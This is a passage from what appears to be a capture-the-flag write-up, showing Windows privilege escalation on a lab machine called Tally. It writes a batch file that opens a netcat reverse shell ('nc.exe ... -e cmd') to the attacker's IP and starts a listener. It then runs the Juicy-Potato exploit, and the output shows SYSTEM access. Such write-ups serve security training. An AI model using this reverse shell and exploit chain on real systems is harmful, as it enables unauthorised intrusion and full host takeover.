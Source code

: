 ```
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.59
                                 [02]: fe80::216c:6707:f767:48d2
                                 [03]: dead:beef::216c:6707:f767:48d2
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```


<hr width="300" size="10">


Write shell.bat and copy it with 'iwr' to target:
```
c:\boo>type shell.bat
type shell.bat
c:\boo\nc.exe 10.10.14.17 6868 -e cmd
```

set a netcat listenter running on Kali
```
nc -nlvp 6868
```

Now run the Juicy-Potato exploit.
```
c:\boo>.\jp.exe -l 9001 -t * -p c:\boo\shell.bat -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
.\jp.exe -l 9001 -t * -p c:\boo\shell.bat -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
Testing {7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381} 9001
......
[+] authresult 0
{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

and catch the System privileged shell:

![system-shell](/assets/img/tally/tally-system-shell.png)
